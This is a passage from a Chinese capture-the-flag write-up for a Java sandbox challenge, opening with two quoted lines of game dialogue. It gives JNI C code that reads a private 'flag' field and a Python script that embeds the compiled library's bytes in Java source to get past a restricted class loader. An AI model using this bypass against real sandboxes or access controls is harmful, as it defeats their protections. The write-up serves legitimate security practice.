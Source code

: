 <img src="jianyichangmao.webp" width="27" height="27"><span></span> ……对啊！只要去死就行了！

<img src="jianyichangmao.webp" width="27" height="27"><span></span> 如果我们死了，那么不会死的人就是魔女！那个人就是幕后黑手！所以我们必须死！

## 7 岁的毛毛：我要写 Java

### 爪哇蛋羹

环境中的工作目录可写，可以考虑动态释放出class或so文件。SolutionLoader无视待加载类名，总是返回Solution类的字节码，所以试图使用其他类时会产生`java.lang.NoClassDefFoundError: Solution$Inner (wrong name: Solution)`这样的奇怪错误。尝试了用ServiceLoader之类的邪道方法加载字节码，加载是成功了，但不能用Class.\*就没法运行。

加载so库至少在这一小题是可行的。JNI API天然可以绕过私有修饰符。

```c
// gcc -I/usr/lib/jvm/default/include -I/usr/lib/jvm/default/include/linux -shared -o libflag1r.so flag1r.c
#include <jni.h>

JNIEXPORT jstring JNICALL Java_Solution_gogogo(JNIEnv *env, jclass unused, jobject obj) {
	jclass cls = (*env)->GetObjectClass(env, obj);
	jfieldID field = (*env)->GetFieldID(env, cls, "flag", "Ljava/lang/String;");
	return (*env)->GetObjectField(env, obj, field);
}
```

把编译产物内嵌到Java源码中。

```python
with open('libflag1r.so', 'rb') as f:
	n = 0
	for i, b in enumerate(f.read()):
		if b:
			print(end=f"d[{i}]={b if b < 128 else b-256};")
			n += 1
			if n % 8 == 0:
				print()
print()
```
